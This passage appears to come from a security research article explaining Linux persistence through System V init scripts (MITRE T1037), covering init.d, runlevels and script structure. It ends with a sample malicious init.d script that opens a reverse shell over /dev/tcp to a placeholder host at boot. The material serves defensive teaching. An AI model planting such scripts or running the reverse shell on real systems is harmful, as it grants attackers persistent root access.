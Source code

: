## T1037 - boot or logon initialization scripts: Init

Init, short for "initialization," is the first process started by the kernel during the boot process on Unix-like operating systems. It continues running until the system is shut down. The primary role of an init system is to start, stop, and manage system processes and services.

There are three major init implementations - [Systemd](https://man7.org/linux/man-pages/man1/systemd.1.html), [System V](https://linux.die.net/man/8/service), and [Upstart](https://linux.die.net/man/7/upstart). In [part 1](https://www.elastic.co/security-labs/primer-on-persistence-mechanisms) of this series, we focused on Systemd. In this part, we will explore System V and Upstart. MITRE does not have specific categories for System V or Upstart. These are generally part of [T1037](https://attack.mitre.org/techniques/T1037/).

### T1037 - boot or logon initialization scripts: System V init

[System V (SysV) init](https://linux.die.net/man/8/service) is one of the oldest and most traditional init systems. SysV init scripts are gradually being replaced by modern init systems like Systemd. However, `systemd-sysv-generator` allows Systemd to handle traditional SysV init scripts, ensuring older services and applications can still be managed within the newer framework.

The `/etc/init.d/` directory is a key component of the SysV init system. It is responsible for controlling the startup, running, and shutdown of services on a system. Scripts in this directory are executed at different run levels to manage various system services. Despite the rise of Systemd as the default init system in many modern Linux distributions, `init.d` scripts are still widely used and supported, making them a viable option for persistence.

The scripts in `init.d` are used to start, stop, and manage services. These scripts are executed with root privileges, providing a powerful means for both administrators and attackers to ensure certain commands or services run on boot. These scripts are often linked to [runlevel](https://linux.die.net/man/7/runlevel) directories like `/etc/rc0.d/`, `/etc/rc1.d/`, etc., which determine when the scripts are run. Runlevels, ranging from 0 to 6, define specific operational states, each configuring different services and processes to manage system behavior and user interactions. Runlevels vary depending on the distribution, but generally look like the following:

* 0: Shutdown
* 1: Single User Mode
* 2: Multiuser mode without networking
* 3: Multiuser mode with networking
* 4: Unused
* 5: Multiuser mode with networking and GUI
* 6: Reboot

During system startup, scripts are executed based on the current runlevel configuration. Each script must follow a specific structure, including `start`, `stop`, `restart`, and `status` commands to manage the associated service. Scripts prefixed with `S` (start) or `K` (kill) dictate actions during startup or shutdown, respectively, ordered by their numerical sequence.

An [example](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L1864-L1881) of a malicious `init.d` script might look similar to the following:

```
#! /bin/sh
### BEGIN INIT INFO
# Provides:             malicious-sysv-script
# Required-Start:       $remote_fs $syslog
# Required-Stop:        $remote_fs $syslog
# Default-Start:        2 3 4 5
# Default-Stop:         0 1 6
### END INIT INFO

case "$1" in
  start)
    echo "Starting malicious-sysv-script"
    nohup setsid bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'
    ;;
```